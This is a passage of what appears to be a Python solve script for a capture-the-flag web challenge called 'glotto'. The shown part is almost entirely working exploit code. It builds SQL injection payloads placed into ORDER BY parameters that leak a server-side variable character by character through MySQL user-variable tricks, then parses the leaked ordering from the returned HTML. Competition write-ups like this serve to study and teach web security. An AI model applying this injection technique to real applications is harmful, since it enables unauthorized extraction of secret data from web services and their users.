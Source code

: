 ```python3
    return r


def extract(i):
    return "mod(ord(substr(@lotto,{},1))-22,43)".format(i+1)


def extract_range(a, b):
    r = ""
    for i,v in enumerate(range(a, b)):
        if i > 0:
            r += "+{}*".format(36**i)
        r += extract(v)
    return r


def leaked_range_to_str(leak, length):
    return "".join(LEAK_TO_CHAR[leak//(36**e)%36] for e in range(length))


def do_leak(session):
    EXPR_TO_LEAK = {
        "march": (3, gensql(8, extract_range(0, 3))),
        "april": (4, gensql(9, extract_range(3, 7))),
        "may": (3, gensql(7, extract_range(7, 10))),
        "june": (1, gensql(4, extract_range(10, 11))),
    }
    params = OrderedDict()
    
    for index, (month, data) in enumerate(DATA.items()):
        params["order{}".format(index)] = EXPR_TO_LEAK[month][1]
    resp = session.get("https://glotto.web.ctfcompetition.com/", params=params)
    soup = BeautifulSoup(resp.text, 'html.parser')
    
    leaked_output = OrderedDict(
        (
            table.select("div.panel-heading")[0].text,
            [row.text for row in table.select("tr td:nth-child(2)")]
        )
        for table in soup.select("div.panel.panel-default")
    )
    
    result = ""
    for month, data in DATA.items():
        leaked_range = unpermute_output(leaked_output[month], month)
        result += " " + leaked_range_to_str(leaked_range, EXPR_TO_LEAK[month][0])
    result += " A"
    return result


def unpermute_output(codes, month):
    indices = {x:i for i,x in enumerate(x[1] for x in DATA[month])}
    return unpermute([indices[w] for w in codes])


def gensql(row_count, expr_to_leak):
    return """winner`*0,
(select concat(
substr(@l,1+mod(@b,@r),1),
@l:=concat(substr(@l,1,mod(@b,@r)),substr(@l,2+mod(@b,@r))),
@b:=@b div @r,
@r:=@r-1
)from(select @l:=0x30313233343536373839,@r:={},@b:={})x)
```